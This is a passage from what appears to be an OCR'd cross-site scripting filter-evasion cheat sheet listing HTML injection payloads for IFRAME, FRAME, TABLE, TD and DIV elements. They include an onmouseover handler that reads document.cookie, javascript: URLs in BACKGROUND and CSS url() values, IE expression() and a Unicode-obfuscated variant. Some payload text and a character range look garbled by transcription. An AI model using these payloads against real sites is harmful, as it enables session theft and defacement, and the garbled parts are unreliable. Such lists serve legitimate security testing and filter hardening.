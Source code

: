 `<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>`

## FRAME

Frames have the same sorts of XSS problems as iframes

`<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>`

## TABLE

`<TABLE BACKGROUND="javascript:alert('XSS')">`

### TD

Just like above, TD's are vulnerable to BACKGROUNDs containing
JavaScript XSS vectors:

`<TABLE><TD BACKGROUND="javascript:alert('XSS')">`

## DIV

### DIV background-image

`<DIV STYLE="background-image: url(javascript:alert('XSS'))">`

### DIV background-image with unicoded XSS exploit

This has been modified slightly to obfuscate the url parameter. The
original vulnerability was found by Renaud Lifchitz as a vulnerability
in Hotmail:

`<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">`

### DIV background-image plus extra characters

Rnaske built a quick XSS fuzzer to detect any erroneous characters that
are allowed after the open parenthesis but before the JavaScript
directive in IE and Netscape 8.1 in secure site mode. These are in
decimal but you can include hex and add padding of course. (Any of the
following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288,
65279):

`<DIV STYLE="background-image: url(javascript:alert('XSS'))">`

### DIV expression

A variant of this was effective against a real world cross site
scripting filter using a newline between the colon and "expression":

`<DIV STYLE="width: expression(alert('XSS'));">`

## Downlevel-Hidden block
